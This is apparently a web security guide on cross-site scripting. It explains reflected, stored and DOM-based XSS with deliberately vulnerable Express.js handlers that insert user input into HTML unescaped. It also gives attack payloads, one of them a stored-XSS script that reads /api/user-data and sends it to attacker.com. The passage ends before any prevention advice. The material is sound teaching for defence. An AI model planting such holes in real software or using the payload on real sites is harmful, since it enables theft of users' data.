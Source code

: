 # Security Patterns and XSS Prevention

## 🛡️ Cross-Site Scripting (XSS) Overview

Cross-Site Scripting (XSS) is one of the most common web security vulnerabilities. It occurs when an application includes untrusted data in a web page without proper validation or escaping, allowing attackers to execute scripts in victims' browsers.

### The Three Types of XSS

1. **Reflected XSS** - Script comes from HTTP request
2. **Stored XSS** - Script stored in database/server
3. **DOM-based XSS** - Script executed through DOM manipulation

## ⚠️ XSS Attack Examples

### 1. Reflected XSS
**Vulnerable Code:**
```javascript
app.get('/search', (req, res) => {
  const query = req.query.q;
  res.send(`<h1>Search results for: ${query}</h1>`);
});
```

**Attack Vector:**
```
GET /search?q=<script>alert('XSS')</script>
```

**Result:** Script executes in user's browser when they click the malicious link.

### 2. Stored XSS
**Vulnerable Code:**
```javascript
app.post('/comment', (req, res) => {
  const comment = req.body.comment;
  // Save to database without sanitization
  database.save({ comment, user: req.user.id });
  
  // Later, when displaying comments:
  res.send(`<div class="comment">${comment}</div>`);
});
```

**Attack Vector:**
```
POST /comment
comment=<script>fetch('/api/user-data').then(r=>r.json()).then(d=>fetch('http://attacker.com/steal?data='+JSON.stringify(d)))</script>
```
